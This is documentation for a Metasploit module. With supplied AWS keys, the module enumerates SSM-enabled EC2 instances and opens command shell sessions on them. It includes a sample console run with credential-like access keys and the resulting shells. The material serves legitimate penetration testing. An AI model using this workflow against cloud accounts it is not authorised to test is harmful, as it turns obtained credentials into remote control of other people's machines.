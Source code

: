 ## Vulnerable Application

Provided AWS credentials, this module will call the authenticated API of Amazon Web Services to list all SSM-enabled EC2
instances accessible to the account. Once enumerated as SSM-enabled, the instances can be controlled using out-of-band
WebSocket sessions provided by the AWS API (nominally, privileged out of the box). This module provides not only the API
enumeration identifying EC2 instances accessible via SSM with given credentials, but enables session initiation for all
identified targets (without requiring target-level credentials) using the CreateSession mixin option. The module also
provides an EC2 ID filter and a limiting throttle to prevent session stampedes or expensive messes.

## Verification Steps

1. Obtain AWS access keys
2. Start msfconsole
3. Set the `ACCESS_KEY_ID`, `SECRET_ACCESS_KEY`, `REGION`
4. Run the module, see EC2 instances

## Options

## LIMIT
Only return the specified number of results from each region.

## FILTER_EC2_ID
Look for specific EC2 instance ID.

## REGION
AWS Region (e.g. "us-west-2").

## Advanced Options

### CreateSession

Create a new session for every successful login.

## Scenarios

Enumerating EC2 instances in the US-East-2 region and opening a session on each one (`CreateSession` is True).

```
msf6 auxiliary(cloud/aws/enum_ssm) > set ACCESS_KEY_ID AKIAO5WK2W9TMZT7EAM5
ACCESS_KEY_ID => AKIAO5WK2W9TMZT7EAM5
msf6 auxiliary(cloud/aws/enum_ssm) > set SECRET_ACCESS_KEY pDNhoEPuubvWSsp18axjPFBM4sNme6vnNUFb6qWo
SECRET_ACCESS_KEY => pDNhoEPuubvWSsp18axjPFBM4sNme6vnNUFb6qWo
msf6 auxiliary(cloud/aws/enum_ssm) > run

[*] Checking us-east-2...
[+] Found AWS SSM host i-02cd668d50587bdcf (ip-172-31-42-215.us-east-2.compute.internal) - 172.31.42.215
[*] AWS SSM command shell session 3 opened (192.168.250.134:39005 -> 172.31.42.215:0) at 2023-05-22 16:43:03 -0400
[+] Found AWS SSM host i-074187bde1453613a (EC2AMAZ-HM7U6TS.WORKGROUP) - 172.31.44.170
[*] AWS SSM command shell session 4 opened (192.168.250.134:37231 -> 172.31.44.170:0) at 2023-05-22 16:43:05 -0400
[*] Auxiliary module execution completed
msf6 auxiliary(cloud/aws/enum_ssm) > 
```
